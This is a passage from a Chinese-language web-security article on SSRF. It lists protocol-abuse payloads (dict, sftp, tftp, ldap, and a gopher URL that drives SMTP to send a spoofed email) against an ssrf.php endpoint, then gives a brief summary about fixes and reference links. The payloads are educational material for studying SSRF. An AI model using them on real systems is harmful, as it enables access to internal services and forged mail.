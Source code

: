 各种绕过都和URL有关系，其实可以看看《Web之困》，脑子活的人可能马上能想到不少绕过

#### 利用协议
```
Dict://
dict://<user-auth>@<host>:<port>/d:<word>
ssrf.php?url=dict://attacker:11111/
SFTP://
ssrf.php?url=sftp://example.com:11111/
TFTP://
ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
LDAP://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher://
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```

### 0x05 总结
简单概括就是形成简单危害大

修复代码要想防御URL的方方面面考虑的点也比较多，建议有这种需求的时候先考虑一下构架是不是要这样会更方便

其实有时候就是程序员为了一时写的爽，结果修复火葬场

### 0x06 参考资料
[https://xz.aliyun.com/t/2115](https://xz.aliyun.com/t/2115)

[https://www.secpulse.com/archives/65832.html](https://www.secpulse.com/archives/65832.html)
